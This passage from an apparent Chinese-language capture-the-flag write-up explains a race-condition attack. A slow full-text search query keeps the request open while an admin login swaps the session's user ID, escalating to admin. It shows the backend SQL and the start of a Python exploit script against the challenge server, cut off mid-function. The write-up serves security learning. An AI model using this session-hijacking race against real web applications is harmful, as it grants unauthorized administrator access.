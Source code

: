 
按照刚才的分析，我们只需要发送一个很长的 query_string，使得`web.query_to_tsquery(query_string)`的执行时间很长，在这个函数执行期间，在用admin身份带上我们用户的session去请求登录，就可以修改掉我们用户的 user_id,接下里的操作就是以管理员身份执行的了：

```sql
  SELECT
    session.user_uid
  FROM
    web.session session
  WHERE
    session.uid = session_uid
  INTO user_uid;

  SELECT
    web.get_base_context(NEW.uid)
  INTO context;

  WITH notes AS (
    SELECT
      jsonb_build_object(
        'author', usr.username,
        'title', note.title,
        'content', note.content,
        'date', to_char(note.date, 'HH:MIam on Month DD, YYYY')
      ) AS obj
    FROM
      web.note note
        INNER JOIN web.user usr
          ON note.author_uid = usr.uid
    WHERE
      usr.uid = user_uid
        AND note.search @@ query
  )
```
构造适当的查询语句，就可以查出flag。

最后的exp如下：

```python
#!/usr/bin/python

import requests
import threading
import time

s = requests.session()

def login(username):

    url = "http://triggered.pwni.ng:52856/login"
    data = {"username":username}

    res = s.post(url,data=data)

    print("[*] login with username")
#     print(res.text)

def login_password(password):
    url = "http://triggered.pwni.ng:52856/login/password"
    data = {"password":password}

    res = s.post(url,data=data)
    print("[*] login with password")
#     print(res.text)

def query(condition):
```